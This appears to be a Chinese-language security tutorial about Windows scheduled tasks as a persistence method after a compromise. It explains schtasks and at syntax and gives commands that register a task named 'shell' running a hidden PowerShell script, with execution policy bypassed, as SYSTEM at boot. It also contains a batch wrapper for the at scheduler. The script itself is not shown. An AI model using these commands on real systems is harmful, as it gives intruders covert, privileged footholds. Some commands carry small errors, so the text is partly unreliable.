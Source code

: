 #  计划任务介绍

计划任务是系统的常见功能，  利用任务计划功能，  可以将任何脚本、程序或文档安排在某个最方便的时间运行。任 务计划在每次系统启动的时候启动并在后台运行。
计划任务打开方式

1. 【管理工具】--->【任务计划程序】
2. 【控制面板】--->【计划任务】
3. 【`taskschd.msc`】命令

![image-20230513150818356](https://img.gyxnb.top/img/image-20230513150818356.png)

# 计划任务生成方式

## 一、使用schtasks

### 1、`schtasks`命令使用介绍

`schtasks /?`

```
SCHTASKS /parameter [arguments]
描述:允许管理员创建、删除、查询、更改、运行和中止本地或远程系统上的计划任务。
参数列表:
	/Create 创建新计划任务。
	/Delete 删除计划任务。
	/Query 显示所有计划任务。
	/Change 更改计划任务属性。
	/Run 按需运行计划任务。
	/End 中止当前正在运行的计划任务。
	/ShowSid 显示与计划的任务名称相应的安全标识符。
	/? 显示此帮助消息。
	
Examples: 产看具体详情
	SCHTASKS
	SCHTASKS /?
	SCHTASKS /Run /?
	SCHTASKS /End /?
	SCHTASKS /Create /?
	SCHTASKS /Delete /?
	SCHTASKS /Query /?
	SCHTASKS /Change /?
	SCHTASKS /ShowSid /?
```

我们主要关注`SCHTASKS /Delete /?` 下的命令

### 2、使用以下命令进行测试

```
1、在每个任意用户登录中以SYSTEM的形式执行计划任务：
schtasks /create /tn 计划任务名 /tr "计划任务执行文件命令" /sc onlogon /ru System

2、在系统启动期间或用户会话处于非活动状态（空闲模式）时执行
schtasks /create /tn 计划任务名 /tr "计划任务执行文件命令" /sc onidle /i 30

3、在系统启动的时候以SYSTEM的形式执行计划任务：
schtasks /create /tn 计划任务名 /tr "计划任务执行文件命令" /sc onstart /ru System

4、计划任务以 System 权限每10分钟运行一次
schtasks /create /tn 计划任务名 /tr "计划任务执行文件命令" /sc minute/mo 10 /ru system
```

### 3、我们利用当系统开机的时候运行计划任务【实验请看】权限维持

```
schtasks /create /tn shell /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -ExecutionPolicy Bypass -NoExit -File C:\Users\Administrator\Desktop\keep\shell.ps1" /sc onstart /ru System
```

### 4、查看连接情况

```
ps -ano
```

 ![image-20230513151231751](https://img.gyxnb.top/img/image-20230513151231751.png)

## 二、使用at

### 2、命令详情如下

```
\\computername    指定远程计算机。如果省略这个参数，会计划在本地计算机上运行命令。
id                指定给已计划命令的识别号。
/delete           删除某个已计划的命令。如果省略 id，计算机上所有已计划的命令都会被删除。
/yes              不需要进一步确认时，跟删除所有作业的命令一起使用。
time              指定运行命令的时间。
/interactive      允许作业在运行时，与当时登录的用户桌面进行交互。
/every:date[,...] 指定在每周或每月的特定日期运行命令 如果省略日期，则默认为在每月的本日运行。
/next:date[,...]  指定在下一个指定日期(如，下周四)运行命令。如果省略日期，则默认为在每月的本日运行。
"command"         准备运行的 Windows NT 命令或批处理程序。
```

### 3、简单命令如下

```
at 1:00AM /Every:Saturday 1.bat 在每个周六1:00点，电脑定时启动1，bat批处理文件。
```

### 4、编写一个命令进行权限维持

bat脚本内容如下：

```
@echo off
powershell.exe -w hidden -ExecutionPolicy Bypass -NoExit -File C:\Users\Administrator\Desktop\keep\shell.ps1
exit
```

```
at 00:00  C:\Users\Administrator\Desktop\keep\1.bat
```

###  5、查看连接情况

![image-20230513151520050](https://img.gyxnb.top/img/image-20230513151520050.png)

`at 1 /delete` 删除任务

## 三、使用powershell

【比较复杂有时间在搞定】




​	